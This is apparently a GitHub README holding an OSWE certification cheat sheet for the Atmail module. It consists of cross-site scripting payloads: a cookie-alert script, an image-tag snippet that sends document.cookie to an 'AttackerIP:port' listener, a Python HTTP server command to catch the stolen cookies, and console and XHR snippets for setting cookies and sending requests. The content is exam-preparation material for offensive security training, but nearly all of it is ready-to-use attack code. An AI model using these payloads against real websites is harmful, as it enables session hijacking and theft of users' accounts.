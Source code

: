 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module Atmail :

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console<br>
    #javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request 
    #xhr= new XMLHttpRequest()
    #xhr.open("POST", url, true)
    #xhr.send(data)
    
6. XHR GET Request 
    #xhr= new XMLHttpRequest()
    #xhr.open("GET", url, true)
    #xhr.send()

    
    
